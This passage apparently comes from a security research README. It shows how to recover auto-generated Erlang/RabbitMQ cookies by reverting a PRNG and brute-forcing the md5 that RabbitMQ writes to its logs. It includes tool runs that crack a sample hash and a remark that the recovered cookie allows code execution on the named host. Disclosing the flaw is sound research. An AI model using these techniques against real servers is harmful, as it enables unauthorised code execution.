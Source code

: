 Reverting of the PRNG is based on finding a minimal solution to a 21*21 system in Z/_2^36_Z. `sage` provides the `solve_right` primitive which handles all the work to provide a suitable solution.

```
$ ./revert-prng.sage stats < sample-cookies
number of cookies: 2000
  min seed: 379860146
  max seed: 386287883
  mean seed: 381404044
  std deviation: 568768
```

### Cracking `rabbitmq` cookie hash

`rabbitmq` logs the raw md5 of the cookie in its log, base64 encoded. [Oops](https://groups.google.com/forum/#!topic/rabbitmq-users/R-1WJpqVuMI). And [oops again](https://stackoverflow.com/questions/37791757/rabbitmq-log-and-mnesia-location-in-environment-variables-not-reflecting).

```
=INFO REPORT==== 27-Dec-2015::13:41:22 ===
node           : rabbit@pablo-HP
home dir       : /var/lib/rabbitmq
config file(s) : /etc/rabbitmq/rabbitmq.config (not found)
cookie hash    : 686jqAnl3g3sdADgSCD+sg==
log            : /var/log/rabbitmq/rabbit@pablo-HP.log
sasl log       : /var/log/rabbitmq/rabbit@pablo-HP-sasl.log
database dir   : /var/lib/rabbitmq/mnesia/rabbit@pablo-HP
```

You can use [crack-hash](crack-hash.c) to sweep through all the seeds and find matching md5:

```
$ time ./crack-hash 686jqAnl3g3sdADgSCD+sg==
IICIEBZGURYVBZWLJTFI
  seed used to generate it = 506551409

real	0m13.121s
user	1m43.467s
sys	0m0.033s
```

Shall you have access to pablo-HP machine, you could execute code on his machine.

Note that only automatically generated cookies can be found by this tool.
If the admin was wise enough to replace the Erlang cookie, the tool will fail with:

```
$ time ./crack-hash X03MO1qnZdYdgyfeuILPmQ==
cookie hash did not reveal a generated cookie

real	30m11.820s
user	233m5.784s
sys	0m16.311s
```

In this case you can always fall back to raw md5 cracking using `oclHashcat` or `john`. Or google.
The hash above matches `password` as plaintext.
